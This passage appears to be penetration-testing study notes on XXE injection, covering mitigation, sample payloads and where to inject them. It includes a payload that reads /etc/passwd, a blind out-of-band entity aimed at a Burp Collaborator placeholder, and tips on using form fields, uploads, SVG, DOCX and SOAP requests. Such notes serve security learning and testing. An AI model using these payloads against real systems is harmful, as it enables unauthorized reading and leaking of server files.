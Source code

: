 Generally, it is sufficient to disable resolution of external entities and disable support for XInclude. This can usually be done via configuration options or by programmatically overriding default behavior. Consult the documentation for your XML parsing library or API for details about how to disable unnecessary capabilities.

## XXE Payloads

Defining a `ENTITY` called `name` and assigning it a value `feast`. Later we are using that ENTITY in our code.

```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>xml
```

We can also use XXE to read some file from the system by defining an ENTITY and having it use the SYSTEM keyword

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

Here again, we are defining an ENTITY with the name `read` but the difference is that we are setting it value to \`SYSTEM\` and path of the file.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection" %}

## Exploiting XXE Strategy

* Place XML Payloads in input fields and URL parameters i.e. Login forms.
* Upload an XML payload file wherever possible.
* Intercept the request and look for any kind of XML data format.
* Replace found XML content with XML payloads.
* Use Python or Burp Collaborator as a web server to look for Blind XXE
  * `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "burp collaborator URL"> ]`

## Increasing Attack Surface

* SVG is just XML describing images
  * Wherever we can upload an image --> XXE if svg is possible
* DOCX/XLSX can also be used for XXE
  * [https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/](https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/)
* SOAP Requests are also just XML requests

## Examples
